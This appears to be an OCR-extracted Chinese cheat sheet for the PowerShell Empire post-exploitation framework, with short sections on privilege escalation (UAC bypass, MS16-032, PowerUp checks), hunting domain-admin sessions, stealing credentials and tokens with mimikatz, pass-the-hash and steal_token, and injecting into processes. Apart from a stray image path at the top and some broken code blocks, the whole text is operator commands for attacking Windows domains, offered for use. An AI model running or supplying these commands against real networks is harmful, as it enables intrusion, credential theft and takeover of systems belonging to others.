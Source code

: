 #### **提权**

```


```
`>agents 列表中Username没有星号则需要提权``>bypassuac listener需指定一个监听器 提权``>usemodule privesc/ms16-032需指定一个监听器 提权``>usemodule privesc/powerup/allchecks执行所有脚本检查漏洞`
```




```

#### **横向**

```


```
`查询域管登录机器``>usemodule situational_awareness/network/powerview/user_hunter`
```




```

##### **令牌窃取**

```


```
`>mimikatz``>creds  获取并整理hash及密码``>pth {ID}窃取管理员令牌``>steal_token {PID}`
```




```

##### **会话注入**

```


```
`>ps 查看进程``>usemodule management/psinject 设置ProcIP和Listener`
```




```
